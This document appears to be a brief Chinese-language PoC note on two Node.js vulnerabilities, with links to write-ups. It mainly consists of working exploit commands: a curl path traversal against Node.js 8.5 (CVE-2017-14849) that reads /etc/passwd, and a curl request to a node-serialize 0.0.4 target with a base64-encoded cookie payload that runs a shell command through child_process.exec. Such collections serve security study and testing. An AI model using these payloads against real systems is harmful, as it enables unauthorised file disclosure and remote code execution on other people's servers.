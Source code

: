 ### nodejs 8.5 normalize 路径解析错误漏洞

参考文章

* [Node.js CVE-2017-14849 漏洞分析](https://security.tencent.com/index.php/blog/msg/121)

Poc - 保证两边的 `/../` 数量一样

```
curl 127.0.0.1/js/../../../../../../a/../../../../../../etc/passwd
```

### node-serialize 0.0.4 unserialize eval() 漏洞

node-unserialize 使用 eval 去产生 `function`，当用户传递闭包函数可造成 RCE

参考文章

* [Node.js 模块 node-serialize 反序列化任意代码执行漏洞](https://www.seebug.org/vuldb/ssvid-92674)

Poc

```
curl 127.0.0.1 -H "Cookie: profile=eyJyY2UiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24gKCkge1xuICAgIHJlcXVpcmUoJ2NoaWxkX3Byb2Nlc3MnKS5leGVjKCdjcCAvZXRjL3Bhc3N3ZCAvdG1wJywgZnVuY3Rpb24oZXJyb3IsIHN0ZG91dCwgc3RkZXJyKSB7XG4gICAgXHQvLyByZXMg5a+56LGh6KKr6ZqU56a75LqG77yM6ZyA6KaB5YaN56CU56m25LiL77yM5omA5Lul5peg5rOV55u05o6l5Zue5pi+XG4gICAgXHQvLyByZXMuc2VuZChcInN0ZG91dD1cIiwgc3Rkb3V0KVxuICAgIFx0Ly8gcmVzLnNlbmQoXCJzdGRlcnI9XCIsIHN0ZGVycilcbiAgICB9KVxuICB9KCkifQ%3D="
```


